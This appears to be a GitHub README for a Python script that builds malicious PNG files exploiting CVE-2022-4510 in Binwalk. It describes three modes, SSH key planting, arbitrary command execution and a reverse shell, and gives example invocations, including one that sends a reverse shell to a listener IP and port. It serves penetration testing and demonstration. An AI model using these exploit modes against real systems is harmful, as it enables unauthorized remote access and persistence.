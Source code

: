 # CVE-2022-4510-Binwalk

This script allows you to generate exploits for targeting CVE-2022-4510 Binwalk vulnerabilities. The exploits can be used for testing and demonstrations. The supported options include SSH, command execution, and reverse shell.

## Prerequisites
- Python 3.x

## Usage
1. Clone the repository or download the script file.
2. Run the script with the desired options. The available options are:
   - `ssh`: Generate an exploit for SSH.
     - Arguments:
       - `file`: Path to the input .png file.
       - `pub`: Path to the public key file.
   - `command`: Generate an exploit for executing a command.
     - Arguments:
       - `--command`: Command to execute.
       - `file`: Path to the input .png file.
   - `reverse`: Generate an exploit for reverse shell.
     - Arguments:
       - `file`: Path to the input .png file.
       - `ip`: IP address of the listener.
       - `port`: Port number of the listener.

Example usages:
```
python exploit_generator.py ssh input.png public_key.pub
python exploit_generator.py command --command "ls -l" input.png
python exploit_generator.py reverse input.png 192.168.0.100 4444
```

## Output
The generated exploit will be saved as `binwalk_exploit.png` in the current directory.

## Disclaimer
Use this script responsibly and only on systems that you have permission to test or demonstrate vulnerabilities. The author is not responsible for any illegal or unauthorized use of this script.
